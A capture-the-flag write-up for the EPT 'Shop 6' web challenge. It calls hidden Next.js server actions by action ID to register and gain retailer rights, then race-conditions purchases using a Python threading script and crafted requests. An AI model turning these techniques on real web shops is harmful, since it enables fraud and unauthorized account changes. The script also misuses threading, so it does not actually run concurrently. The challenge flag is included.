






# Shop 6 Writeup


### Task description
Third time's the charm! We rebuilt the shop once again, this time with all those new JavaScript frameworks that are super hip and trendy! Luckally, it is impossible to make insecure applications using these new frameworks, so our shop is therefore 100% secure this time around!

If you should manage, somehow to buy the new exclusive EPT tote bag merchandise, you can claim 5 physical instances at the admin booth after you have bought the bag in the shop and submitted the flag on the platform!

**Flag:** EPT{3v3ry7hin6_i5_4_5erv3r_4cti0n_1f_y0u_7ry_h4rd_en0ugh!}

**Challenge Author:**
null

**Writeup Author:**
Marlena

### Solution
There are three steps to complete before we can buy the EPT tote flag bag: 
1. register
2. become a retailer
3. race condition attack

#### Step 1: Register
It is not possible to register directly, as the registration is stopped for security reasons.  


However in the provided [source code](https://github.com/ept-team/equinor-ctf-2024/blob/main/writeups/web/Shop%206/shop-6.zip) we can see, that the backend function to register still exists. Only the frontend has been commented. The page can be run locally using docker. By activating the registration page, running the code and intercepting the register request (for example by using BurpSuite) we can find out the actionID and structure of the request: 

```
POST / HTTP/2
Host: localhost:3000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryObF38AiNBkHWpY4D
Content-Length: 490

------WebKitFormBoundaryObF38AiNBkHWpY4D
Content-Disposition: form-data; name="$ACTION_ID_22848b167831802fadcb34db9cc648e9d77b665f"


------WebKitFormBoundaryObF38AiNBkHWpY4D
Content-Disposition: form-data; name="username"

user
------WebKitFormBoundaryObF38AiNBkHWpY4D
Content-Disposition: form-data; name="password1"

test@EPT
------WebKitFormBoundaryObF38AiNBkHWpY4D
Content-Disposition: form-data; name="password2"

test@EPT
------WebKitFormBoundaryObF38AiNBkHWpY4D--

```

The server method performed on a post request is determined by the action id, the URL is not important (see [How Do Server Actions Work in NextJS?](https://codelynx.dev/posts/how-work-server-actions)). The ids do not change on recompilation, we can therefore use the actionId found in the local version to register a new user in real target web shop.  
Now we can log in and buy a Fun Product!  


#### Step 2: Become a retailer
After buying an item we might want to sell it again, but the shop tells us that only retailers can sell items.  


How do we become a retailer now? 
A look in the source code shows, that the retailer condition is checked in the backend, and that it is loaded directly from the database. 
```javascript 
<form
    action={async () => {
    "use server";
    if (user.retailer) {
        removeItem(item.name);
        setMoney(user.money + item.price);
    } else {
        redirect("/items?error=Only retailers can sell items");
    }
    }}
>
```

The only option to change that retailer Boolean is the function `makeRetailer()` in the db.ts file. Funnily enough, this function is never used anywhere in the code base, so it's probably meant to be used by us :-)

```javascript 
export async function makeRetailer(): Promise<boolean> {
    const user = await getUser();
    if (!user) return false;

    db.run("UPDATE users SET retailer = ? WHERE id = ?", [true, user.id]);
    return true;
}
```

The important keywords here are the `"use server"` directive on top of the file and **export** in the function declaration. This means, that the function is a server function that can be called from the client ([NextJS Documentation](https://nextjs.org/docs/app/building-your-application/data-fetching/server-actions-and-mutations)).
Now we just need to find out what its actionId is.
The local instance can be changed, so we can simply add an additional page that calls the `makeRetailer()` function. 

```javascript
import { makeRetailer } from "../db";

export default async function retailer(){
  return (
    <form action={makeRetailer}>
      <div className="d-flex align-items-center justify-content-between mt-4 mb-0">
        <button type="submit" className="btn btn-primary">
          Become retailer
        </button>
      </div>
    </form>
  );
}
``` 


By hitting the button and intercepting the request we can see that the actionId of the `makeRetailer()` function is *ACTION_ID_758c88ac2c11c3f9c5eac5df2912014fc02de432*.   

```
POST / HTTP/2
Host: localhost:3000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysAXQao7KYBIv9rix
Cookie: token=ae12dfa629808143b59cacf675b68556
Content-Length: 182

------WebKitFormBoundarysAXQao7KYBIv9rix
Content-Disposition: form-data; name="$ACTION_ID_758c88ac2c11c3f9c5eac5df2912014fc02de432"


------WebKitFormBoundarysAXQao7KYBIv9rix--
```

We can send this request to the real target web shop to make our user a retailer. 
It is important that we replace the cookie token with the actual cookie to change the right user.
Now we can sell and buy items!

#### Pitfall: 
Now that we have access to one of the database function we might decide that the easiest way to get the bag would be to just use the `addItem(itemName: string)` or `setMoney(amount: number)` functions in the same way. The problem here is, that these functions need an input and the application does not accept text input for post requests (compare middleware.ts). However, other input types, like for e.g. form-data do not match the function declaration, so we can not use those functions.

#### Step 3: Race condition attack
After all this work we still don't have enough money to buy the flag bag. However with the ability to buy and sell items we can perform a race condition attack. 
In the source code we can see that on buying an item the item is added to the user account before the money is removed. 

```javascript 
if (user?.money >= item.price) {
    addItem(item.name);
    setMoney(user?.money - item.price);
}
```
Here we can attack! If we buy the item multiple times at the same time the server will most likely create several threads which process the requests in parallel. If they all check if there is enough money at the same time the condition is true for all threads and `addItem()` is called several times.   
By intercepting the buy request we can see the structure of the buy request: 

```
POST / HTTP/2
Host: eptbox-shop-6.ept.gg
Cookie: token=6bd318e2c2ba1307c0088273c29ca03b
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGjANc28XpICtA0FU
Content-Length: 858

------WebKitFormBoundaryGjANc28XpICtA0FU
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryGjANc28XpICtA0FU
Content-Disposition: form-data; name="$ACTION_2:1"

["$@2"]
------WebKitFormBoundaryGjANc28XpICtA0FU
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"9337c109f875b15e8546173b9d015d3123b9728c","bound":"$@1"}
------WebKitFormBoundaryGjANc28XpICtA0FU
Content-Disposition: form-data; name="$ACTION_2:2"

"JJHZ5DH3PLOVlBW8mxmNFgkU3ydXddlKGe5JrCL7FGzO3HF5Z5cUKuts61SGgcdNDdAVbKnvZyIqOkLHf7uAwWXL/gMUDQdNMfV9rmYDkn/zKHKkTeQUlZGNNKNS+LMjpvj+XyB6bZXWK3/lsnZ3/hwVTDAMWkhVWDgyhtf3OJaM3t8tqUp10nSUvTWv1mdY8qlUp98aATIDOWrXEatSShmPkellGUHlqigXYLWMShdQAJf6WxSiYTAT90zJEi8VbtTeOh+B0rtlEzTYq/n4H/O/2qY057YxmHw/csAH0WNUZH8uSQAjzJ+Wc5c28LYrWM5xPjrqJvOgxrFr9evG/aOErigm"
------WebKitFormBoundaryGjANc28XpICtA0FU--

```

As all item cards are created using a loop in NextJs. The different forms are identified through ids which change each time the page is requested. To attack this form we therefore need to request and extract the ids inside the attack script.

```py
import requests
import threading
from bs4 import BeautifulSoup

# Target URL
url = "https://eptbox-shop-6.ept.gg/items" 
cookie = {
    "token": "6bd318e2c2ba1307c0088273c29ca03b" #replace with right token
}
num_requests = 100
boundary = "----WebKitFormBoundary1qhWJBRoa05epOoB"

# Function to fetch items from the API
def fetch_items():
    try:
        response = requests.get(url=url, cookies=cookie)
        response.raise_for_status()  # Raise an error for bad responses
        soup = BeautifulSoup(response.text, 'html.parser')
        form = soup.find('form')     #find the first form (Buy button for Fun product)
        return form.findAll('input') #return all hidden inputs
    except requests.RequestException as e:
        print(f"Error fetching items: {e}")
        return []

# Function to send a single request
def send_request(payload):
    headers = {
        "Content-Type": f"multipart/form-data; boundary={boundary}",
    }
    try:
        response = requests.post(url, data=payload, cookies=cookie, headers=headers)
        print(f"Status Code: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"Request failed: {e}")

def attack(payload):
    threads = []
    for _ in range(num_requests):   # create threads
        thread = threading.Thread(target=send_request(payload))
        threads.append(thread)
    for thread in threads:          # start threads simultaneously
        thread.start()
    for thread in threads:          # wait for all threads to complete
        thread.join()

def main():
    # Fetch items
    items = fetch_items()
    
    # build payload
    payload = ""
    for input in items:
        payload = payload+f"--{boundary}\r\n"
        payload = payload+f'Content-Disposition: form-data; name="{input.get("name")}"\r\n\r\n'
        payload = payload+f'{input.get("value")}\r\n'
    payload = payload + f"--{boundary}--\r\n"

    #start attack
    attack(payload)

if __name__ == "__main__":
    main()
```



#### Getting the flag
Now that we have several fun items we can sell them until our balance is high enough to buy the EPT Tote Bag. After we bought it we can see the flag in the note column on the item page. 



We learned that all these new frameworks are not that secure after all, it just takes a bit more effort to find the right endpoint or actionId!

Sadly it was 20:15 and CTF was closed when we finally completed all steps :-(